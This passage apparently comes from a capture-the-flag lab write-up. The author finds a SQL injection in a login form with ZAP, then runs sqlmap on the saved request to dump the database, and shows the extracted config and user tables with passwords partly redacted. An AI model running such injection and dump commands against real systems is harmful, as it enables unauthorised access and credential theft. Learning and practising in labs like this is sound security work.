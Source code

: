 Scanning this page with ZAP we find that it’s got a SQL injection flaw. We’ll save the POST message for this page from ZAP into the file `sqli.raw` and run SQLMap to see if we can dump the database

![Screenshot 2023-09-03 at 10.28.48 AM.png](/assets/expose/Screenshot_2023-09-03_at_10.28.48_AM.png)

>If you’re using ZAP to scan for SQLi, make sure you’ve submitted at least one login attempt through the form before starting the scan. ZAP needs to see the POST request in history to know to fuzz it!
{: .prompt-tip }


### Dump the Database

We'll dump the database with SQLMap.

`sqlmap -r sqli.raw --dump --threads=10`

```bash
Table: config
[2 entries]
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69[redacted]29                                      |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
+----+------------------------------+-----------------------------------------------------+

Table: user
[1 entry]
+----+-----------------+---------------------+--------------------------------------+
| id | email           | created             | password                             |
+----+-----------------+---------------------+--------------------------------------+
| 1  | hacker@root.thm | 2023-02-21 09:05:46 | Ve[redacted]31                       |
+----+-----------------+---------------------+--------------------------------------+
```
{: .nolineno }
